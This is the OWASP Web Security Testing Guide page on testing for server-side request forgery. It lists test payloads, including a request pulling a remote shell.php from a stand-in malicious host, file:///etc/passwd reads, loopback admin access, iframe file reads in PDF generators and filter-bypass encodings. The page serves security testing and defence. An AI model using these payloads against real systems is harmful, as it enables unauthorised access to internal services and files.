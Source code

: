 ```yaml
---

layout: col-document
title: WSTG - v4.2
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Server-Side Request Forgery

|ID          |
|------------|
|WSTG-INPV-19|

## Summary

Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other back-end systems that are not directly reachable by users. These back-end systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:

``` http
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads.

### Load the Contents of a File

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Access a Restricted Page

```http
GET https://example.com/page?page=http://localhost/admin
```

Or:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

### Fetch a Local File

```http
GET https://example.com/page?page=file:///etc/passwd
```

### HTTP Methods Used

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [references section](#references).

### PDF Generators

In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

- Using alternative IP representation that evaluate to `127.0.0.1`:
  - Decimal notation: `2130706433`
  - Octal notation: `017700000001`
  - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to [semantic attacks](https://tools.ietf.org/html/rfc3986#section-7.6).

- Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, see the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to defeat without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, read the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [URI Generic Syntax](https://tools.ietf.org/html/rfc3986)
